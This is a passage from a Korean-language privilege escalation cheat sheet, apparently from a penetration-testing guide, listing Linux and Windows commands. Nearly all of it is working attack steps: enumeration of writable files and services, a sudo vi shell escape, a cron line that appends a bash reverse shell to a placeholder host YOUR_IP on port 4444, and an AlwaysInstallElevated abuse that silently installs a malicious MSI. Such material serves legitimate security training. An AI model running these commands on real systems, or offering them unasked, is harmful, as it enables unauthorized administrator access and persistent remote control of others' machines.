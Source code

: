 #### 🔵 설정 파일 검색

```bash
# World-writable 설정 파일
find /etc -type f -writable -exec ls -la {} \; 2>/dev/null

# 홈 디렉토리 숨겨진 파일
find /home -type f -name ".*" 2>/dev/null
```

#### 🔵 실제 사례: 예상치 못한 권한 상승 경로

```bash
# 텍스트 에디터에 SUID 권한이 있는 경우
sudo vi -c ':!/bin/sh' /dev/null

# Cron 작업 악용
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' >> /var/spool/cron/username
```

### 2. **윈도우 권한 상승 - 체계적 접근**

#### 🔵 기본 시스템 열거

```powershell
# 시스템 정보
systeminfo

# 패치 상태
wmic qfe get Caption,Description,HotFixID,InstalledOn

# 사용자 정보
net user
net localgroup administrators
```

#### 🔵 서비스 권한 문제

```powershell
# 서비스 권한 확인
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

# 수정 가능한 서비스 파일
icacls "C:\Program Files\Vulnerable Service\service.exe"
```

#### 🔵 실제 사례: Always Install Elevated

```powershell
# 레지스트리 키 확인
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 취약점 악용
msiexec /quiet /qn /i malicious.msi
```

---